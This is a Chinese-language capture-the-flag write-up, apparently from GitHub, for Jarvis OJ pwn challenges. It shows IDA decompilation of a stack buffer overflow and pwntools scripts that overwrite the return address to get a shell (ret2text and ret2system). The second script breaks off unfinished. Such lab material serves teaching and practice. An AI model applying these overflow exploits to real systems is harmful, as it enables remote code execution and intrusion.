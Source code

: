 #### 1. 内存泄漏
1.内存泄漏 xman_level0 [file](https://dn.jarvisoj.com/challengefiles/level0.b9ded3801d6dd36a97468e128b81a65d)

    nc pwn2.jarvisoj.com 9881
    # 覆盖 填充长度 + 一个bp 大小(8bytes)

思路：

扔进IDA看strings, 有bin/sh, 进入按X，看函数调用地址。

左侧函数窗口，看main函数

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      write(1, "Hello, World\n", 0xDuLL);
      return vulnerable_function();
    }

看 vulnerable_function

    ssize_t vulnerable_function()
    {
      char buf; // [rsp+0h] [rbp-80h] # 读buf 占 0x80，双击进入，
      return read(0, &buf, 0x200uLL); # 就读入 0x200， 即16*16*2 =512个bytes
    }
    
    # buf 
    -0000000000000002                 db ? ; undefined
    -0000000000000001                 db ? ; undefined
    +0000000000000000  s              db 8 dup(?) 
    +0000000000000008  r              db 8 dup(?) # 存放返回地址， 多空余0x8字节，加上前面的0x80字节，就是0x88个字节

read可以读入0x200，即512个字符，而从buf到vulnerable_function的返回地址只有0x80+0x8,即 136个字节 < 512，因此可以覆盖 vulnerable_function 的返回地址为 call_system 函数地址，即可getshell

```python
# -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881) 
junk = 'a'*0x80 # 随意填充0x80个，


fakebp = 'a'*8 # 看char buf，双击进buf，最下面还有8个bytes
syscall = 0x0000000000400596 # ida 查看 exports 填入地址
payload = junk + fakebp + p64(syscall) # 正常是vulnerable_function()返回地址，我们这里覆盖为syscall地址，得到shell
sh.send(payload)
sh.interactive()

```
#### 读取 symbol system的地址
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

io = remote("pwn2.jarvisoj.com",9878)
elf = ELF("./level2")

sys_addr = elf.symbols["system"]                     # IDA对应的函数为 _system 0x08048320
bin_addr = elf.search("/bin/sh".encode()).__next__() # IDA可见 0x804a024

payload = 'a'*(0x88 + 0x4)                 #辣鸡填充值
payload += p32(sys_addr).decode('latin')   #覆盖返回地址到system函数
```